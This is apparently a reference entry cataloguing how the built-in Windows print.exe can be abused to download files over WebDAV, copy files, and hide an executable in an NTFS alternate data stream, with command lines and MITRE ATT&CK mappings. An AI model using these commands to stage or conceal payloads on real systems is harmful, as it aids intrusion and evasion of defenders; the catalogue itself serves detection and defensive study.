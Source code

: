 ## Print.exe

* Functions: Download, Copy, Add ADS

```
print /D:c:\ads\file.txt:file.exe c:\ads\file.exe     
     
print /D:C:\ads\CopyOfFile.exe C:\ads\FileToCopy.exe

print /D:c:\outfolder\outfile.exe \\webdavserver\folder\file.exe     
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe

Code sample:
*

Resources:
* https://twitter.com/Oddvarmoe/status/985518877076541440
* https://www.youtube.com/watch?v=nPBcSP8M7KE&lc=z22fg1cbdkabdf3x404t1aokgwd2zxasf2j3rbozrswnrk0h00410

Full path:
```
c:\windows\system32\print.exe
c:\windows\sysWOW64\print.exe
```

Notes:
Please note for example three: The oufolder needs to exist and the outfile.exe can't exist. Additionally webclient needs to be running
```
(from an administrator prompt)
net start webclient && print /D:c:\outfolder\outfile.exe \\live.sysinternals.com\tools\adexplorer.exe && net stop webclient
```


 
MITRE ATT&CK:
* [NTFS File Attributes](https://attack.mitre.org/wiki/Technique/T1096)
* [Port Monitors](https://attack.mitre.org/wiki/Technique/T1013)
* [Remote File Copy](https://attack.mitre.org/wiki/Technique/T1105)

